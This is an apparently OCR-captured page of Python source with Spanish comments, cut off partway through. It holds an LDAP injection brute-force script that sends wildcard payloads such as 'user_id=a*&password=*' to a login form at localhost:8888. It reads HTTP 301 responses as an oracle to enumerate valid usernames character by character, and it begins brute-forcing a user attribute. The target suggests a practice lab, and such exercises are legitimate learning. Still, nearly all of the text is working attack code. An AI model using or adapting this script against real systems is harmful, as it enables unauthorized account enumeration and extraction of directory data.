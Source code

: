 ```python
# Variables globales

main_url = "http://localhost:8888/"

def getInitialUsers():

    characters = string.ascii_lowercase + string.digits
    initial_users = []
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}  # Cabecera obligatoria de incorporar, de lo contrario todos los status.code van a ser de 200

    for character in characters:
        post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
        
        r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)
        
        if r.status_code == 301:
            initial_users.append(character)   # Append se usa para meter contenido dentro de una LISTA, recordemos que initial_users más arriba es una lista.

    return initial_users # Return es para que nos muestre el contenido de la lista.

def getUsers(initial_users):

    characters = string.ascii_lowercase + string.digits
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    valid_users = []

    for first_character in initial_users:

        user = ""

        for position in range(0, 15):
            for character in characters:

                post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)

                r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)

                if r.status_code == 301:

                    user+= character
                    break

        valid_users.append(first_character + user)

    print("")
    for user in valid_users:
        log.info("Usuario válido encontrado: %s" % user)
    print("")

    return valid_users

def getDescription(user):

    characters = string.ascii_lowercase + string.digits +' '
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}

    atributo = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
```